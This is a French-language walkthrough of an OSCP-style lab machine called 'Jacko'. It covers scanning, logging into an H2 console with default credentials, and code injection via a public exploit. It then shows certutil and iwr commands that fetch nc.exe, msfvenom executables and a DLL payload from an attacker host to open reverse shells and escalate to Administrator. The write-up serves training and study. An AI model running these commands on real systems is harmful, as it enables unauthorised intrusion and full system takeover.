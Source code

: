 # Jacko

	sudo masscan -p1-65535,U:1-65535 192.168.203.66 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.203.66 -oN nmap.txt
	feroxbuster --silent -u http://192.168.203.66/
	feroxbuster --silent -u http://192.168.203.66:8082/
	
Scans classiques.
 
    80/tcp open http Microsoft IIS httpd 10.0  
    135/tcp open msrpc Microsoft Windows RPC  
    139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
    445/tcp open microsoft-ds?  
    5040/tcp open unknown  
    8082/tcp open http H2 database http console  
    9092/tcp open XmlIpcRegSvc?  
    49664/tcp open msrpc Microsoft Windows RPC  
    49665/tcp open msrpc Microsoft Windows RPC  
    49666/tcp open msrpc Microsoft Windows RPC  
    49667/tcp open msrpc Microsoft Windows RPC  
    49668/tcp open msrpc Microsoft Windows RPC  
    49669/tcp open msrpc Microsoft Windows RPC

Sur l'interface du port 8082, la connexion avec les identifiants par défaut ("sa" / "") marche et on a accès à une console SQL mais il semble ne rien y avoir d'exceptionnel dans la base de données. On voit juste qu'il n'y a pas d'autres utilisateurs dedans, et quelques informations sur l'OS : 

	SELECT * FROM INFORMATION_SCHEMA.SETTINGS;
	SELECT * FROM INFORMATION_SCHEMA.USERS;

En revanche la console elle-même ("H2 1.4.199") semble vulnérable à de l'injection de code : 
<br /> https://www.exploit-db.com/exploits/49384

Il suffit de recopier le code de l'exploit directement dans la console SQL et on a bien le résultat "jacko\tony" pour la commande "whoami" par exemple. Il faut ensuite simplement remplacer la commande dans la ligne suivante : 

    "CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');"

Je n'ai pas réussi à faire fonctionner le moindre reverse-shell directement mais les téléchargements semblent marcher et j'ai trouvé une solution détournée :  

	certutil.exe -urlcache -f http://192.168.45.189/nc.exe  ../../../../../Users/Public/nc.exe
	C:/Users/Public/nc.exe 192.168.45.189 443 -e sh

En relançant le code avec les deux lignes ci-dessus j'obtiens bien une connexion mais le reverse-shell se coupe au bout de quelques secondes. J'ai donc décidé de reproduire cette séquence avec MSFVenom pour fiabiliser le processus : 

    msfvenom  -p windows/shell/reverse_tcp LHOST=192.168.45.189 LPORT=443 -f exe >  /var/www/html/msfvenom.exe
    ...
    rlwrap nc -nvlp 443
    
Et dans la console SQL on répète la procédure avec ces lignes :  

    certutil.exe -urlcache -f http://192.168.45.189/msfvenom.exe  ../../../../../Users/Public/msfvenom.exe
    C:/Users/Public/msfvenom.exe

Les shells continuaient à se fermer directement et j'ai dû passer par Metasploit pour la réception. Je n'ai pas utilisé Meterpreter afin de mieux simuler mes futures conditions d'examen pour l'OSCP, mais cela fonctionne tout aussi bien avec le payload classique : 

    msfconsole -x "use exploit/multi/handler ; set payload windows/shell/reverse_tcp ; set LHOST 192.168.45.189 ; set LPORT 443 ; run ; "
    ...
	C:\Users\tony\Desktop>type local.txt  


Élévation de privilèges utilisant un CVE ; les deux seules difficultés sont la variable PATH mal configurée et le programme Powershell qui semble situé à un autre endroit. Il faut donc au préalable redonner la bonne valeur au PATH puis chercher Powershell manuellement : 

	cd C:\
	set PATH=%SystemRoot%\system32;%SystemRoot%;
	dir "*powershell*" /s
	cd Windows\WinSxS
	dir | findstr "powershell" | findstr "exe"
	cd amd64_microsoft-windows-powershell-exe_31bf3856ad364e35_10.0.18362.1_none_3b736eaf7f6b1264
	powershell.exe -ep bypass

	dir "Program Files (x86)"
	dir "Program Files"
	
	iwr -Uri http://192.168.45.189/exploit_PaperStream.ps1 -Outfile .\exploit.ps1
	iwr -Uri http://192.168.45.189/UninOldIS.dll -Outfile C:\Windows\Temp\UninOldIS.dll
	./exploit.ps1
	

De mon côté : 
    
    msfvenom -p windows/shell_reverse_tcp  LHOST=192.168.45.189 LPORT=9999 -f dll > UninOldIS.dll
	rlwrap nc -nvlp 9999
	...
	C:\Users\Administrator\Desktop>type proof.txt

